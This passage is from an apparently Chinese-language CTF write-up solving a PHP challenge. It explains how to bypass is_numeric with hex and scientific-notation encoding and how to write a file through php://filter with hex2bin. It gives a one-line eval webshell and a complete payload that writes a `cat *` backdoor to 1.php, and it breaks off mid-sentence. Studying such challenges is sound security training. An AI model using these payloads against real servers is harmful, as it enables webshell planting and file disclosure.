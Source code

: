 ```php
    die('hacker');
}


?>

Notice: Undefined index: v1 in /var/www/html/index.php on line 14

Notice: Undefined index: v2 in /var/www/html/index.php on line 15

Notice: Undefined index: v3 in /var/www/html/index.php on line 16
hacker
```

这里要求`v2` 是数字，并且截取第三位后的字符作为`call_user_func` 的第二个参数。

`v1` 作为 `call_user_func` 的第一个参数。

`v3` 作为 `file_put_contents` 的文件名。

`call_user_func($v1,$s);` 返回结果作为`file_put_contents`  的第二参数。



is_numeric 函数是又漏洞的，再 php5 版本下是可以识别十六进制的。也就是说，如果传入`v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e(<?php eval($_POST[1]);?>的十六进制)`也是可以识别为数字的。

但此题是 php7 环境。不可以。

要让v2均为数字，首先我们考虑写入1.php时，利用伪协议写入

```php
get:v2=？？？&v3=php://filter/write=convert.base64-decode/resource=1.php
post: v1=hex2bin
```

关键就是什么代码base64编码后再转为十六进制为全数字

```php
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //等号在base64中只是起到填充的作用，不影响具体的数据内容，直接用去掉，=和带着=的base64解码出来的内容是相同的。
输出   5044383959474e6864434171594473
带e的话会被认为是科学计数法，可以通过is_numeric检测。
```

同时因为经过substr处理，所以v2前面还要补两位数字。

构造

```php
?v2=005044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

# post
v1=hex2bin
```

或者
